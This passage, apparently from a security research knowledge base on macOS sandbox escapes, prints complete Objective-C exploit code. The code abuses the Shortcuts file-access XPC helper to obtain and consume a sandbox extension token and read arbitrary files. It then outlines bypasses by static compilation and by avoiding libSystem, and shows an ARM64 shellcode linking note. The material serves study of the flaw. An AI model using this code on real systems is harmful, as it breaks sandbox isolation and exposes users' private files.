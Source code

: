 The exploit was:

```objectivec
@protocol WFFileAccessHelperProtocol
- (void) extendAccessToURL:(NSURL *) url completion:(void (^) (FPSandboxingURLWrapper *, NSError *))arg2;
@end
typedef int (*PFN)(const char *);
void expoit_ShortcutsFileAccessHelper(NSString *target) {
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/WorkflowKit.framework"]load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.WorkflowKit.ShortcutsFileAccessHelper"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(WFFileAccessHelperProtocol)];
    [conn.remoteObjectInterface setClasses:[NSSet setWithArray:@[[NSError class], objc_getClass("FPSandboxingURLWrapper")]] forSelector:@selector(extendAccessToURL:completion:) argumentIndex:0 ofReply:1];
    [conn resume];
    
    [[conn remoteObjectProxy] extendAccessToURL:[NSURL fileURLWithPath:target] completion:^(FPSandboxingURLWrapper *fpWrapper, NSError *error) {
        NSString *sbxToken = [[NSString alloc] initWithData:[fpWrapper scope] encoding:NSUTF8StringEncoding];
        NSURL *targetURL = [fpWrapper url];
        
        void *h = dlopen("/usr/lib/system/libsystem_sandbox.dylib", 2);
        PFN sandbox_extension_consume = (PFN)dlsym(h, "sandbox_extension_consume");
        if (sandbox_extension_consume([sbxToken UTF8String]) == -1)
            NSLog(@"Fail to consume the sandbox token:%@", sbxToken);
        else {
            NSLog(@"Got the file R&W permission with sandbox token:%@", sbxToken);
            NSLog(@"Read the target content:%@", [NSData dataWithContentsOfURL:targetURL]);
        }
    }];
}
```

### Static Compiling & Dynamically linking

[**This research**](https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/) discovered 2 ways to bypass the Sandbox. Because the sandbox is applied from userland when the **libSystem** library is loaded. If a binary could avoid loading it, it would never get sandboxed:

- If the binary was **completely statically compiled**, it could avoid loading that library.
- If the **binary wouldn't need to load any libraries** (because the linker is also in libSystem), it won't need to load libSystem.

### Shellcodes

Note that **even shellcodes** in ARM64 needs to be linked in `libSystem.dylib`:

```bash
ld -o shell shell.o -macosx_version_min 13.0
ld: dynamic executables or dylibs must link with libSystem.dylib for architecture arm64
```
